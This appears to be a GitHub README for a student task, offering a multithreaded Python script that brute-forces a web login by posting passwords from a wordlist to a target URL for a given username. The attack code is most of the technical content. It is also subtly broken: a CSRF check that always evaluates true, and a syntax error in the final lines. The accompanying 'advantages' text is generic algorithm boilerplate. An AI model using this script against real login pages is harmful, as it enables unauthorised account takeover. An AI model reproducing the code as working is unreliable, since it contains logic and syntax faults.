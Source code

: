 <p align="center">

# TASK 2 : CREATE A BASIC TOOL FOR THE BRUTE FORCING USERNAMES AND PASSWORDS IN PYTHON  <hr>
# SUBMITTED BY SUPRAJA S

</p>
<p align="center">
<img src="brute-force-attack.webp">
</p>

# BRUTE FORCE PROCESS 
<p>
 Brute forcing is relying on or achieved through the application of force, effort, or power in usually large amounts instead of more efficient, carefully planned, or precisely directed methods.
</p>

# FEATURES OF BRUTE FORCING 

User Input: The script takes input from the user for the target URL, target username, and the error message displayed when an incorrect password is entered.

BruteForce Cracker Class: It encapsulates the functionality related to the brute-force attack. The crack method attempts to log in with a given password and checks the response for an error message.

crack_passwords Function: It iterates through a list of passwords, attempting to crack the password using the BruteForceCracker instance. Multithreading is used to speed up the process.

Main Function: It initializes the brute-force cracker, reads passwords from a file ("passwords.txt"), and starts multiple threads to perform the password cracking concurrently.

Banner: The script displays a "CHECKING SERVER!!!" banner when executed.

Threading: The script uses the threading module to perform password cracking concurrently, improving efficiency.

Error Handling: The script checks for CSRF tokens in the response and exits if detected, preventing the brute force attack if the target website employs CSRF protection.

Printing: Various print statements are used for displaying information about th e cracking process, including the target URL, username, password attempts, and successful password discovery

# ADVANTAGES OF BRUTE FORCING 

The following are the advantages of the brute-force algorithm:

-This algorithm finds all the possible solutions, and it also guarantees that it finds the correct solution to a problem.

-This type of algorithm is applicable to a wide range of domains.

-It is mainly used for solving simpler and small problems.

-It can be considered a comparison benchmark to solve a simple problem and does not require any particular domain knowledge.

# DISADVANTAGES OF BRUTE FORCING

The following are the disadvantages of the brute-force algorithm:

-It is an inefficient algorithm as it requires solving each and every state.

-It is a very slow algorithm to find the correct solution as it solves each state without considering whether the solution is feasible or 
  not.
  
-The brute force algorithm is neither constructive nor creative as compared to other algorithms.

<p align="center">
<img src="image1-499.png">
</p>

# PYTHON CODE :
```print (""" BRUTE FORCE""")
import threading
import requests
import time
import sys

class BruteForceCracker:
    def __init__(self, url, username, error_message):
        self.url = url
        self.username = username
        self.error_message = error_message
        
        for run in banner:
            sys.stdout.write(run)
            sys.stdout.flush()
            time.sleep(0.02)

    def crack(self, password):
        data_dict = {"LogInID": self.username, "Password": password, "Log In": "submit"}
        response = requests.post(self.url, data=data_dict)
        if self.error_message in str(response.content):
            return False
        elif "CSRF" or "csrf" in str(response.content):
            print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
            sys.exit()
        else:
            print("Username: ---> " + self.username)
            print("Password: ---> " + password)
            return True

def crack_passwords(passwords, cracker):
    count = 0
    for password in passwords:
        count += 1
        password = password.strip()
        print("Trying Password: {} Time For => {}".format(count, password))
        if cracker.crack(password):
            return

def main():
    url = input("Enter Target Url: ")
    username = input("Enter Target Username: ")
    error = input("Enter Wrong Password Error Message: ")
    cracker = BruteForceCracker(url, username, error)
    
    with open("passwords.txt", "r") as f:
        chunk_size = 1000
        while True:
            passwords = f.readlines(chunk_size)
            if not passwords:
                break
            t = threading.Thread(target=crack_passwords, args=(passwords, cracker))
            t.start()

if __name__ == '__main__':
    banner = """CHECKING SERVER!!!"""  print(banner)
    main()
```
# PREVIEW SCREENSHOT 
<p>
 <img src="screenshot 2.png">
 </p>
 <hr>

<h3 align="left">Connect with me:</h3>
<p align="left">
<a href=https://www.instagram.com/suprajasarathy05/ target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/instagram.svg" alt="SUPRAJA S" height="30" width="40" /></a>
</p>





























